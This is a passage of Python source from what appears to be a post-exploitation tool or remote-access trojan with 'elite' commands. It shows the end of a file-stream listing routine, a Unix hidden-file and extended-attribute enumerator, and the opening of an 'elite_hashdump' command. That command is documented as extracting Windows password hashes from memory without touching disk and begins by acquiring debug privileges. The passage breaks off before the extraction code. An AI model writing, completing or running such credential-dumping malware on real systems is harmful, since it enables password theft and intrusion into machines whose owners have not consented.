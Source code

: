 ```python
                    break
            
            kernel32.FindClose(handle)
    except:
        pass
    
    return streams

def _unix_elite_ls(directory):
    """Unix implementation with hidden file detection"""
    import stat
    
    files = []
    
    # Use os.listdir with hidden files
    for filename in os.listdir(directory):
        filepath = os.path.join(directory, filename)
        
        try:
            file_stat = os.lstat(filepath)
            
            file_info = {
                'name': filename,
                'size': file_stat.st_size,
                'hidden': filename.startswith('.'),
                'mode': stat.filemode(file_stat.st_mode),
                'uid': file_stat.st_uid,
                'gid': file_stat.st_gid
            }
            
            # Check for extended attributes (potential hiding)
            try:
                import xattr
                attrs = xattr.listxattr(filepath)
                if attrs:
                    file_info['xattrs'] = attrs
            except:
                pass
            
            files.append(file_info)
        except:
            continue
    
    return files
```

#### Elite Hashdump Command
**File:** `Core/elite_commands/elite_hashdump.py`

```python
import ctypes
import struct
import hashlib
from Crypto.Cipher import ARC4, DES

def elite_hashdump():
    """Extract password hashes from memory without touching disk"""
    
    if os.name != 'nt':
        return {"error": "Windows only command"}
    
    # Step 1: Get SYSTEM privileges
    if not _enable_debug_privilege():
        return {"error": "Failed to get debug privileges"}
```